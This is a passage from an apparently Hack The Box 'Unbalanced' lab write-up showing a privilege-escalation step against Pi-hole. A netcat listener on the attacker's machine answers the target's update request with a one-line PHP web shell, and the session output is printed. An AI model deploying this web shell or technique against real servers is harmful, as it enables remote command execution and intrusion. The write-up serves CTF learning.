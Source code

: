3. Start listener on port 80again
4. Upon redirection click on update button

![Pi-hole version](/assets/htb/Unbalanced/privesc/step4.png)

5. Send php webshell (or reverse-shell) as response upon request:

```bash
root@darkness:~# nc -lvnp 80
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.200.
Ncat: Connection from 10.10.10.200:60002.
POST / HTTP/1.1
Host: 10.10.14.22
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Accept: */*
Content-Length: 8
Content-Type: application/x-www-form-urlencoded

.domains
<?php system($_REQUEST['cmd'])?>

^C
```

